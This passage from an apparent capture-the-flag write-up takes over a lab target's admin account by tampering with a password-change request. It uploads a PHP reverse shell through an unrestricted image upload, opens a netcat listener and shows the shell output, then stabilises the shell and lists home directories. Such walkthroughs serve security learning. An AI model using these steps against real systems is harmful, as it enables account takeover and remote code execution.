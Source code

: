 I could not use the feature, but I had something that looked like the admin user name. I went back to the page to change my password to 123456. I intercepted the POST request and change the username to 'admin@sky.thm'. I logged out, and tried to login with admin@sky.thm/123456 and it worked. I was logged in as an admin.

As the admin user, I went back to the profile page and tried to upload an image. The upload seemed to work. There was a message that said the image was saved. But it did not say where. The profile image was not changed. And I did not see the new image in `/assets/img`. 

I took a closer look at the page HTML and saw this comment.

```html
<!-- /v2/profileimages/ -->
```

I navigated to http://target.thm/v2/profileimages/ but directory listing was disabled. I added the name of the image I just uploaded and it worked. 

Next I tried to upload a PHP reverse shell. There was no restriction on what I could upload so the upload was successful. I launched a netcat listener and opened http://target.thm/v2/profileimages/php-reverse-shell.php, it gave me a reverse shell. 

```bash
$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.47.241 49698
Linux sky 5.4.0-73-generic #82-Ubuntu SMP Wed Apr 14 17:39:42 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 21:09:12 up  1:23,  0 users,  load average: 0.27, 0.10, 0.02
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

## Privilege Escalation

I started by getting a stable bash shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'; export TERM=xterm
CTRL-z
stty raw -echo;fg
```

Then I explored the server. 

```bash
www-data@sky:/$ ls -la /home
total 12
drwxr-xr-x  3 root         root         4096 May 25  2021 .
drwxr-xr-x 20 root         root         4096 May 25  2021 ..
drwxr-xr-x  4 webdeveloper webdeveloper 4096 Oct  8 10:59 webdeveloper

www-data@sky:/$ ls -la /home/webdeveloper
total 36
drwxr-xr-x 4 webdeveloper webdeveloper 4096 Oct  8 10:59 .
drwxr-xr-x 3 root         root         4096 May 25  2021 ..
lrwxrwxrwx 1 webdeveloper webdeveloper    9 May 25  2021 .bash_history -> /dev/null
-rw-r--r-- 1 webdeveloper webdeveloper  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 webdeveloper webdeveloper 3771 Feb 25  2020 .bashrc
drwx------ 2 webdeveloper webdeveloper 4096 May 25  2021 .cache
drwxrwxr-x 3 webdeveloper webdeveloper 4096 May 25  2021 .local
-rw------- 1 webdeveloper webdeveloper   51 Oct  8 10:59 .mysql_history
-rw-r--r-- 1 webdeveloper webdeveloper  807 Feb 25  2020 .profile
-rw-r--r-- 1 webdeveloper webdeveloper    0 Oct  7 17:53 .sudo_as_admin_successful
-rw-r--r-- 1 webdeveloper webdeveloper   33 May 25  2021 user.txt

```